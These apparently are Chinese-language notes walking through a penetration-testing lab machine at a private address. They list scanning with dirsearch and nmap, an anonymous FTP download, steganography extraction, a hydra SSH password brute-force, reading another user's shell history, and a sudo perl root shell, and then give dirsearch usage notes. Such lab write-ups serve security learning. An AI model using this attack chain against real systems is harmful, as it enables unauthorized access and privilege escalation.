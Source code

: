 dirsearch -u “[http://192.168.56.101](http://192.168.56.101/)“ -x 403,404,401(查出blogs目录，查看页面得到S3cr3t-T3xt,跳转至该目录得到密钥)

nmap -p 21,22,80 -sC 192.168.56.101(此处可发现Anonymous账号)（这是一个使用 nmap 工具进行端口扫描和脚本扫描的命令。具体来说，该命令指定了要扫描的端口（21、22和80），并启用了默认的脚本扫描。`nmap` 是一个常用的网络扫描工具，用于发现和识别目标主机上开放的端口和提供的服务。通过指定不同的扫描选项和参数，可以对目标主机进行多种类型的扫描，包括端口扫描、操作系统识别、服务和版本识别等。在你提供的命令中，`-p 21,22,80` 参数指定了要扫描的端口，即 21、22 和 80。`-sC` 参数启用了默认的脚本扫描，这将运行一系列内置的脚本来探测和识别目标主机上的服务。`192.168.56.101` 是目标主机的 IP 地址，这是你要对其进行扫描的目标。）

ftp 192.168.56.101

ls

get trytofind.jpg

exit

ls

strings trytofind.jpg

apt install steghide

steghide extract -sf trytofind.jpg

cat data.txt

hydra -l renu -P /usr/share/wordlists/Passwords/darkweb2017-top10000.txt ssh://192.168.56.101

ssh [renu@192.168.56.101](mailto:renu@192.168.56.101)

ls

cat user1.txt

ls -al

cat .bash_history

ssh [lily@192.168.56.101](mailto:lily@192.168.56.101)

ls -al

cat user2.txt

sudo perl -e ‘exec”/bin/sh”;’

cd /root

ls -al

cat .root.txt

相关操作命令：https://gtfobins.github.io/

靶场参考https://www.yuque.com/g/sunwu-pbywz/baji/un4pf9/collaborator/join?token=qFv08WRcPtc1ivgS&source=doc_collaborator# 

##### 相关知识点：

###### dirsearch

`python3 dirsearch.py -u "https://example.com"`
扫描[https://example.com网站](https://example.com网站/)
`python3 dirsearch.py -e php,html -u "https://example.com"`
指定文件扩展名
`python3 dirsearch.py -e php,html -u "https://example.com" -w /wordlist`
指定字典
`python3 dirsearch.py -e php -u "https://example.com" --prefixes .,admin,_`
指定前缀，为 . admin _
`python3 dirsearch.py -e php,html,txt -u "https://example.com" -t 20`
指定线程数量–20
